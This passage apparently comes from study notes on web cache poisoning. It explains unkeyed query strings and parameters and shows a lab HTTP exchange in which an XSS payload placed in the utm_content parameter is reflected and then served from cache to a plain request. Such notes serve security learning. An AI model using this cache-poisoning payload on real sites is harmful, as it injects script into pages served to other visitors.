 The methodology involves the following steps:
- [Identify a suitable cache oracle](Web%20Cache%20Implementation%20flaws.md#Identify%20a%20suitable%20cache%20oracle)
- [Probe key handling](Web%20Cache%20Implementation%20flaws.md#Probe%20key%20handling)
- [Identify an exploitable gadget](Web%20Cache%20Implementation%20flaws.md#Identify%20an%20exploitable%20gadget)

#### Unkeyed port

#### Unkeyed query string

To identify a dynamic page, you would normally observe how changing a parameter value has an effect on the response. But if the query string is unkeyed, most of the time you would still get a cache hit, and therefore an unchanged response, regardless of any parameters you add. Clearly, this also makes classic cache-buster query parameters redundant.
  
#### Unkeyed query parameters

Some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements.
  
```http
GET /?utm_content='/><script>alert(1)</script> HTTP/1.1
Host: 0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Connection: close
Content-Length: 9912

<link rel="canonical" href='//0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net/?utm_content='/><script>alert(1)</script>


GET / HTTP/1.1
Host: 0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net
Connection: close

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: max-age=35
Age: 19
X-Cache: hit
Connection: close
Content-Length: 9867

<link rel="canonical" href='//0af8004f04d10d9cc26dfc40003a00d1.web-security-academy.net/?utm_content='/><script>alert(1)</script>
```
